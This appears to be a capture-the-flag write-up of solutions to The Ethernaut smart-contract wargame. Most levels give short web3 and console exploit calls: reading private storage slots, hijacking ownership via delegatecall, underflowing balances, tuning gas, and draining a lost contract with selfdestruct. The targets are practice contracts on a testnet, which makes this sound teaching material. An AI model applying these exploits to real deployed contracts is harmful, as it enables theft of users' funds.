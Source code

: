 # The Ethernaut

## Level 0: Hello Ethernaut

```JavaScript
await contract.info()                       // You will find what you need in info1().
await contract.info1()                      // Try info2(), but with "hello" as a parameter.
await contract.info2('hello')               // The property infoNum holds the number of the next info method to call.
(await contract.infoNum()).toString()       // 42
await contract.info42()                     // theMethodName is the name of the next method.
await contract.theMethodName()              // The method name is method7123949.
await contract.method7123949()              // If you know the password, submit it to authenticate().
const password = await contract.password()
contract.authenticate(password)
```

## Level 1: Fallback
```JavaScript
contract.contribute({ value: 1 })
contract.sendTransaction({ value: 1 })
contract.withdraw()
```

## Level 2: Fallout
```JavaScript
contract.Fal1out({ value: 1 })              // That's Fal-1-out... (o:
```

### Lesson Learned
Contract name must be equal to the constructor name.  Otherwise it will be publicly available for calling...

## Level 4: Telephone
### Lesson Learned
Reference: https://ethereum.stackexchange.com/questions/1891/whats-the-difference-between-msg-sender-and-tx-origin

In a sample call chain `A -> B -> C -> D`, inside D:
`msg.sender` = C (can be a contract)
`tx.origin` = A (must be an entity)

## Level 5: Token
```JavaScript
contract.transfer("0x0", 21)
```

## Level 6: Delegation
```JavaScript
contract.sendTransaction({ data: '0xdd365b8b' })
/*
 bytes4(keccak256('pwn()'))
 = bytes4(0xdd365b8b15d5d78ec041b851b68c8b985bee78bee0b87c4acf261024d8beabab)
 = 0xdd365b8b
 
 By calling the delegate "pwn()", the owner can be changed.
 */
```

## Level 8: Vault
```JavaScript
// Obtain the password
web3.eth.getStorageAt(contract.address, 1, (err, res) => {
  contract.unlock(res)
})
```

## Level 9: King

## Level 10: Re-entrancy

## Level 11: Elevator

Executing `ElevatorExploit.attack()` with different values of gas.  Steps 270 and 441 in VM trace is the operation to obtain `msg.gas` for determining `isLastFloor`.

1.  https://ropsten.etherscan.io/vmtrace?txhash=0xbc803aa91687e2746953b323f5d20bf45c6292a0b802af6955bdd5dcf99cf69d (total gas = 60000, floor = 1337)
    `msg.gas = 26424`.  We set `floor = 316` so that `(msg.gas + floor) % 1337 = 26740 % 1337 = 0`.
2.  https://ropsten.etherscan.io/vmtrace?txhash=0x11308f9a9699924a66624800d75bd80183f0de500092b4204067a9f8d9c4c2dd (total gas = 60000, floor = 316)
    Done.

## Level 12: Privacy

```JavaScript
web3.eth.getStorageAt(contract.address, 0, (err, res) => {
  alert(res)
})

//                                                                   ID
//                                                                 fl..attening
//                                                               de....nomination
//                                                           awkw......ardness
// > 0x0000000000000000000000000000000000000000000000000000005bb1ff0a01

web3.eth.getStorageAt(contract.address, 1, (err, res) => {
  alert(res)
})

//   data[0]
// > 0x55a025286f42846feb0cc561e3c9ab2192b6243b8fca1e2391e82b380025e742

web3.eth.getStorageAt(contract.address, 2, (err, res) => {
  alert(res)
})

//   data[1]
// > 0xdeb01339f4e2fa86210aa2b46a0f7f178dc305f4cb477a0caa0fc33f0ce04120

web3.eth.getStorageAt(contract.address, 3, (err, res) => {
  alert(res)
})

//   data[2]
// > 0x8f04ad8b567a647e628d2adcefb3d9ab58753533c0df20a3c56db16b258bf761

web3.eth.getStorageAt(contract.address, 4, (err, res) => {
  alert(res)
})

// > 0x0000000000000000000000000000000000000000000000000000000000000000

(await contract.ID()).toString(10)
// > 1534509758

contract.unlock('0x8f04ad8b567a647e628d2adcefb3d9ab')
```

## Level 13: Gatekeeper One

Executing `GatekeeperOneExploit.attack()` with different values of gas.  Step 167 in VM trace is the operation to obtain `msg.gas` for `msg.gas % 8191 == 0`.

1.  https://ropsten.etherscan.io/vmtrace?txhash=0x4beb2c697043c4d53c8cc0c04acd28f275f67d53c01ed99f618479f951e556cc (total gas = 100000)
    Seeing that `msg.gas = 75359` (the opcode `GAS` gets the amount of available gas *including* the reduction), we add it by 6551 so that `msg.gas` is divisible by 8191.
2.  https://ropsten.etherscan.io/vmtrace?txhash=0x270775bec32de6d234ff82067abdb98070bf6bae61d0bdd43a693d8b66909855 (total gas = 106551)
    `msg.gas = 81808` now.  Add the gas by 102 this time.
3.  https://ropsten.etherscan.io/vmtrace?txhash=0x65cc02403217edebd4cb742c10d50cdf7012a080f50d65c2c2c66a2ff32a63c4 (total gas = 106653)
    `msg.gas = 81908` now.  Add the gas by 2.
4.  https://ropsten.etherscan.io/vmtrace?txhash=0xd09a061d1e034a962f06a637a62699c9238bb3d56fd8f85ce31d1561e77312e5 (total gas = 106655)
    Done!

## Level 14: Gatekeeper Two

* `gateOne` requires the function to be called from a **contract**.
* `gateTwo` requires the function to be called from a **non-contract** or a **contract constructor**.

In short, the function should be called from a contract constructor.

## Level 15: Naught Coin
```JavaScript
contract.increaseApproval("0x4d0c516b5175a23d0f413e54622401202b8d7cc0", "1000000000000000000000000")
# Then execute NaughtCoinExploit.attack()
```

### Lesson Learned
Don't forget that one could approve someone to spend the token instead of oneself in ERC20 - check the unlocked balance instead of the total balance.

## Level 16: Preservation

## Level 17: Locked

## Level 18: Recovery

Transaction for deploying instance: https://ropsten.etherscan.io/tx/0xe6913b87b4f1e2eb0ee64dcad96276d741536561387de67f1edf13e19fca83d4

* Check the address for `SimpleToken` (where the 0.5 ETH is sent to): `0xcd8fee146597cadca0bc84482689e65342d8beb5`
```JavaScript
web3.eth.sendTransaction({ to: '0xcd8fee146597cadca0bc84482689e65342d8beb5', data: '0x00f55d9d000000000000000000000000bce00fd336be3be338458e93efc80da14f8a3e05' }, (err, res) => alert(res))
```